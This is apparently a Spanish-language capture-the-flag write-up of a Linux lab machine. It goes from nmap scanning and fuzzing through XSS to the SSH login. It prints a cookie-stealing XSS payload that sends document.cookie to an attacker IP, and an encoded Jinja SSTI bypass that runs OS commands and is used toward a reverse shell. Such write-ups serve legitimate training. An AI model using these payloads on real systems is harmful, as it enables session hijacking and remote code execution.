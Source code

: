 #Linux #medium #tecnicas 
### Ping
```python
ping -c 1 10.10.11.12
PING 10.10.11.12 (10.10.11.12) 56(84) bytes of data.
64 bytes from 10.10.11.12: icmp_seq=1 ttl=63 time=71.4 ms

--- 10.10.11.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 71.439/71.439/71.439/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 5000 -Pn 10.10.11.12 -oN Scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-08 22:36 EDT
Nmap scan report for 10.10.11.12
Host is up (0.071s latency).
Not shown: 65506 closed tcp ports (reset), 27 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```

### Enumeración del puerto 80 (http)

![[Pasted image 20240408224546.png]]

![[Pasted image 20240408224608.png]]

### Fuzzing con ffuz
el dominio `/quote` no esta en los directorios de la pagina asi que vamos a investigar  
![[Pasted image 20240408224309.png]]

`quote`
![[Pasted image 20240408224935.png]]

### BurpSuite
vamos a realizar una petición y la interceptamos con burpsuite
![[Pasted image 20240408225150.png]]

`Service`
tenemos 3 service que se estan enviando al servidor. vamos a intentar validarlos enviando una petición a un servidor que tendremos a la escucha
```python
<img+src='http://10.10.14.27/test.png'>
```
![[Pasted image 20240408231842.png]]

### Python3 server
obtenemos la petición que hemos realizado por lo cual podemos decir que esta web es vulnerable a `XSS`
![[Pasted image 20240408232124.png]]

### Cookie
vamos a usar este payload para capturar la cookie de session. 
```python
<img src=x onerror=this.src='http://10.10.14.27/?c='+document.cookie> # URLencode
```
![[Pasted image 20240408234641.png]]

`cookie`
![[Pasted image 20240408234800.png]]

agregamos la cookie en el `cookie-editor`
![[cookie.png]]

### dashboad

![[Pasted image 20240408235954.png]]

`Generate Invoice`
![[Pasted image 20240408235845.png]]

`codigo ID 0255314324`
obtenemos un ID Invoice 
![[Pasted image 20240408235903.png]]

`Generator QR`
ingresamos el ID que hemos obtenido anteriormente
![[Pasted image 20240409000254.png]]

### SSTI (Server-Side Template Injection)
realizamos una prueba y es posible ver el resultado dentro del nombre de archivo generado para el código QR. Eso confirma que se está produciendo SSTI
![[Pasted image 20240409001851.png]]

`Burpsuite`
interceptamos la petición con burpsuite y podemos confirmar que se esta ejecutando correctamente el resultado de {{7 * 7}} a partir de aqui solo necesitamos conseguir hacer Bypass para poder ejecutar codigo
![[Pasted image 20240409002315.png]]

### Bypass SSTI 
usando estos parametros podemos hacer un bypass del servicio que esta corriendo por detras el cual hemos logrado ejecutar con éxito el comando id usaremos esto para ejecutar una reverse shell
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
![[Pasted image 20240409003615.png]]

### reverse shell
usamos una reverse shell u la URL encodeamos 
![[Pasted image 20240409004321.png]]

### Netcat 
estaremos a la escucha con Netcat por el puerto que hemos especificado y obtenemos la shell
![[Pasted image 20240409004434.png]]

### database
podemos ver las credenciales de usuario
![[Pasted image 20240409005450.png]]

### mysql
podemos listar la base de datos
![[Pasted image 20240409010111.png]]

`mysql`
listando la tabla de usuarios podemos listar credenciales en texto plano
![[Pasted image 20240409010333.png]]

### Crackstation
tenemos la contraseña de consuela
![[Pasted image 20240409010748.png]]

### ssh
tenemos conexión via ssh
![[Pasted image 20240409010946.png]]